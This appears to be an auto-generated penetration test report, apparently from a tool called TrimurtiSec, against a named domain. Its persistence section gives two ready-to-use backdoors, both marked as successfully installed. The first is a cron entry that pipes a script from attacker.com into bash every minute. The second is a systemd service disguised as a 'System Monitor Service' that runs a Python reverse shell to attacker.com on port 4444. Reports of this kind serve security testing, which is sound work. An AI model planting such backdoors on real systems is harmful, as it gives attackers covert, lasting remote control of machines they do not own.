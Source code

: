 # TrimurtiSec Penetration Test Report
Generated on: 2025-06-11 23:01:42
Target: bhuwantamang.com.np

## Executive Summary
This report was generated using the TrimurtiSec Advanced Penetration Testing Framework.

## Persistence Results
## Persistence Mechanisms - Cron Method

The following persistence mechanisms were attempted:

### Cron Job Backdoor

```bash
# Added to target's crontab
* * * * * /usr/bin/curl -s http://attacker.com/payload.sh | /bin/bash
```

Status: ✅ Successfully implemented

### Systemd Persistence

Created persistent systemd service:

```ini
[Unit]
Description=System Monitor Service

[Service]
Type=simple
ExecStart=/usr/bin/python3 -c 'import socket,subprocess;s=socket.socket();s.connect(("attacker.com",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())'
Restart=always

[Install]
WantedBy=multi-user.target
```

Status: ✅ Service installed and enabled




